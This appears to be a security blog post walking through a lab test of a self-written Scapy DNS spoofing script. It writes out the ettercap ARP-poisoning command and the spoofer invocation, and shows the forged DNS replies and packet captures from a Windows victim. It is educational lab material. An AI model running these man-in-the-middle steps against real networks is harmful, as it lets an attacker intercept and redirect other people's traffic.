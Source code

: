 The testing phase
In the previous post we built a DNS Spoofing tool using Scapy and Python.
In this post, we will validate that the script is working as expected

In this lab we will have the following systems
Kali: 192.168.0.15 (.23)
Windows Hosts: 192.168.0.16 (.36)
Gateway: 192.168.0.1

Kali
On This system, we will add entries to our hosts file for some common domain.
Let's see what this looks like
root@securitynik:~# cat /etc/hosts
127.0.0.1    yahoo.com
127.0.0.1   microsoft.com

Let's look at the ARP cache of the Windows System
C:\>arp -aInterface: 192.168.0.16 --- 0x2
  Internet Address      Physical Address      Type
  192.168.0.1           00-04-5a-6c-db-79     dynamic

Let's look at a snapshot of the IPConfig and DNS Settings of the Windows System
Ethernet adapter Local Area Connection:
        IP Address. . . . . . . . . . . . : 192.168.0.16
        Subnet Mask . . . . . . . . . . . : 255.255.255.0
        Default Gateway . . . . . . . . . : 192.168.0.1
        DNS Servers . . . . . . . . . . . : 8.8.8.8
                                            4.2.2.1

Let's look at the Windows system host file to ensure these names are not resolved locally
C:\>type "c:\WINDOWS\system32\drivers\etc\hosts"
# This is a sample HOSTS file used by Microsoft TCP/IP for Windows.
127.0.0.1       localhost

Now let's go ahead and load dnsSpoof.py on Kali
root@securitynik:~/security-nik# ./dnsSpoof.py eth0 192.168.0.15
Current system is Linux ... Good to go!!
 Sniffing for DNS Packet

Let's load up ettercap to perform our ARP Spoofing for the gateway and the windows hosts
root@securitynik:~# ettercap --mitm arp:remote --text --iface eth0 /192.168.0.1/ /192.168.0.16/

Now that ettercap is running let's check the Windows system ARP Cache again
C:\>arp -a
Interface: 192.168.0.16 --- 0x2
  Internet Address      Physical Address      Type
  192.168.0.1           08-00-27-41-9b-6c     dynamic
  192.168.0.15          08-00-27-41-9b-6c     dynamic
Awesome!! It looks like the Kali system is claiming to be 192.168.0.1

Let's go ahead and ping some hosts from our Windows system.
Remember above when we ran ./dnsSpoof.py we used 192.168.0.15 as the spoofed DNS server (./dnsSpoof.py eth0 192.168.0.15)

C:\>ping yaooo.com -n 1 && ping microsoft.com -n 1
Pinging yaooo.com [192.168.0.15] with 32 bytes of data:
Reply from 192.168.0.15: bytes=32 time<1ms TTL=64

Pinging microsoft.com [192.168.0.15] with 32 bytes of data:
Reply from 192.168.0.15: bytes=32 time<1ms TTL=64

As can be seen above, the Windows system thinks that yahoo.com and microsoft.com are both at 192.168.0.15.

What did dnsSpoof see?
Got Query on Sun May 25 12:51:23 2014
 Received Src IP:192.168.0.16,
 Received Src Port: 53049
 Received Query ID:33693
 Query Data Count:1
 Current DNS Server:8.8.8.8
 DNS Query:yaooo.com.

 Sending spoofed response packet
Sent 1 packets.
 Spoofed DNS Server: 192.168.0.15
 src port:53 dest port:53049
 Sniffing for DNS Packet
 Sniffing for DNS Packet
 Sniffing for DNS Packet

 Got Query on Sun May 25 12:51:23 2014
 Received Src IP:192.168.0.16,
 Received Src Port: 64982
 Received Query ID:36189
 Query Data Count:1
 Current DNS Server:8.8.8.8
 DNS Query:microsoft.com.

 Sending spoofed response packet
Spoofed DNS Server: 192.168.0.15
 src port:53 dest port:64982

DNS Spoof did see the request for yahoo.com and microsoft.com and did send the spoof response.

But how can we further confirm this you ask? Ok let's look at the packet capture from the Window's system perspective
Packets don't lie ... or at least shouldn't :-)

C:\tools>WinDump.exe -nn -r dnsspoof.pcap port 53
reading from file dnsspoof.pcap, link-type EN10MB (Ethernet)
12:51:23.466964 IP 192.168.0.16.53049 > 8.8.8.8.53:  33693+ A? yaooo.com. (27)
12:51:23.480022 IP 192.168.0.15.53 > 192.168.0.16.53049:  33693*- 1/1/1 A 192.168.0.15 (11
2)

12:51:23.497526 IP 192.168.0.16.64982 > 8.8.8.8.53:  36189+ A? microsoft.com. (31)
12:51:23.503152 IP 192.168.0.15.53 > 192.168.0.16.64982:  36189*- 1/1/1 (128)


If we look at the captures and the messages from dnsSpoof we can see the following for yahoo.com
Both dnsSpoof and windump report the time as: 12:51:23
Looking at the source port we see the same: 53049
Looking at the query id, we see: 33693
... and the query name? we see we have yahoo.com
More importantly we see while the client at 192.168.0.16 made a request to 8.8.8.8, it actually got its response from 192.168.0.15

Based on the above, I would conclude the tool works as expected.

Go ahead and analyse the microsoft.com reuqest by yourself ;-)

As seen between these two posts on building and testing your own tools (dnsSpoof.py), it really does not take that much effort if you are willing to put in the time.